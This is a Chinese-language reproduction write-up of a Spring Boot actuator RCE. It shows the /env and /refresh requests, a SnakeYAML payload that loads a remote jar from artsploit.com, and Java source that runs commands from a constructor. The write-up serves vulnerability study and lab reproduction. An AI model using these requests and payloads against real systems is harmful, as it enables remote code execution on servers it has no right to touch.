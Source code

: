 # Spring Boot 修改环境属性导致的rce

> 原文：[https://www.zhihuifly.com/t/topic/3130](https://www.zhihuifly.com/t/topic/3130)

# Spring Boot 修改环境属性导致的rce

## 一、漏洞简介

## 二、漏洞影响

Spring Boot 2.x

## 三、复现过程

环境下载 https://github.com/ianxtianxt/actuator-testbed

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 59 `spring.cloud.bootstrap.location=http://artsploit.com/yaml-payload.yml` 
```

该请求修改了“ spring.cloud.bootstrap.location”属性，该属性用于加载外部配置并以YAML格式解析它。为了做到这一点，我们还需要调用“ / refresh”端点。

```
POST /refresh HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 0 
```

从远程服务器获取YAML配置时，将使用SnakeYAML库进行解析，该库也容易受到反序列化攻击。有效载荷（yaml-payload.yml）可以通过使用前述的Marshalsec研究生成：

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
  ]]
] 
```

该文件的反序列化将触发提供的URLClassLoader的ScriptEngineManager构造函数的执行。简而言之，它导致了**'java.util.ServiceLoader＃load（java.lang.Class ，java.lang.ClassLoader）'**方法，该方法试图在所有库中查找'ScriptEngineFactory'接口的所有实现。在类路径中。由于我们可以通过URLClassLoader添加新的库，因此我们可以在其中包含恶意字节码的情况下为新的'ScriptEngineFactory'提供服务。为此，我们需要使用以下必需文件创建一个jar归档文件：https://github.com/ianxtianxt/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java应该包含实际的字节码，并在构造函数中带有恶意负载。

```
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

```
public AwesomeScriptEngineFactory() {
    try {
        Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
        Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
    } catch (IOException e) {
        e.printStackTrace();
    } 
``` 
```

https://github.com/ianxtianxt/yaml-payload/blob/master/src/META-INF/services/javax.script.ScriptEngineFactory应该只是一个包含对'artsploit.AwesomeScriptEngineFactory'的完整引用的文本文件，以便ServiceLoader知道在哪里可以找到该类：**artsploit.AwesomeScriptEngineFactory**同样，这种利用技术要求弹簧云位于类路径中，但是与Eureka的XStream有效负载相比，它甚至可以在最新版本中使用